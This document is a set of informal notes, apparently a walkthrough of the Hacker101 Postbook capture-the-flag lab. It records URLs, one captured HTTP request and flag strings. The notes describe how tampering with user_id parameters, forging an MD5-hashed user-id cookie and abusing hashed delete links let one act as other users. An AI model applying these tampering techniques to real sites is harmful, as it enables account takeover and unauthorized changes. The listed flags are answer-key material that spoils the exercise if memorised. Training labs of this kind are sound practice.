 https://8f40e9166681e12f02dce6086d5dae4d.ctf.hacker101.com/


https://8f40e9166681e12f02dce6086d5dae4d.ctf.hacker101.com/index.php?page=sign_in.php
post request to sign in page with false creds = 

```You've entered a wrong username/password combination. Please do not hack our system because it is insanely illegal. We will report you to PETA if you continue. Nothing is logged, but we ask you kindly not to try anything malicious.```

No loggin yeah!


sign up page https://8f40e9166681e12f02dce6086d5dae4d.ctf.hacker101.com/index.php?page=sign_up.php




```Sign up
Please only use fake and temporary credentials. All of the information stored is this system is considered to be open to everyone.

Usernames should be lowercase characters only.
```

https://8f40e9166681e12f02dce6086d5dae4d.ctf.hacker101.com/index.php?page=profile.php&id=c

Username = user

https://8f40e9166681e12f02dce6086d5dae4d.ctf.hacker101.com/index.php?page=profile.php&id=b

username = admin

https://8f40e9166681e12f02dce6086d5dae4d.ctf.hacker101.com/index.php?page=profile.php&id=a

username = ''


Flag0 discovered 
https://8f40e9166681e12f02dce6086d5dae4d.ctf.hacker101.com/index.php?page=view.php&id=2

^FLAG^c4969316ab68bd2180e22322d3e58819cd197337a920ca40b9f7ab3daea30a08$FLAG$

SECRET: [Dear diary...](https://8f40e9166681e12f02dce6086d5dae4d.ctf.hacker101.com/index.php?page=view.php&id=2)  
I am so glad that I am on Postbook. I can finally write down my thoughts and no one can see them. See you tomorrow. Yours truly, admin  
Author: admin


FLAG1 found 

POST /index.php?page=create.php HTTP/2
Host: 8f40e9166681e12f02dce6086d5dae4d.ctf.hacker101.com
Cookie: id=eccbc87e4b5ce2fe28308fd9f2a7baf3
Content-Length: 45
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://8f40e9166681e12f02dce6086d5dae4d.ctf.hacker101.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://8f40e9166681e12f02dce6086d5dae4d.ctf.hacker101.com/index.php?page=create.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

title=test2&body=testing&private=on&user_id=2
-----------------------
since my id is 3, changing the last parameter to 2 allows me to post to another users posts

^FLAG^e3db759e0e6088270cbb33e29b1eedf7cfc37d24a527ce00f4d027892649c5ca$FLAG$
^FLAG^c4969316ab68bd2180e22322d3e58819cd197337a920ca40b9f7ab3daea30a08$FLAG$

flag 2 edit someones post by changing id in request
^FLAG^ab23c257656238fd38cfb2f6d5da82085c2513f74669e4d60f9f738a635bb356$FLAG$

FLAG 4 -change my cookie (md5 hash of userid "3" to user id "4")
^FLAG^b48a602a1b4421829b38f021ff0f8d8540570db7cec595bfc2abb735e314bdc4$FLAG$

flag 5 - the delete button uses a hash of the post id number and doesnt care about user cookie

^FLAG^fd51b280c89c2174da365d6b01feb4b2c1b2209843741e0d67188bc666327d06$FLAG$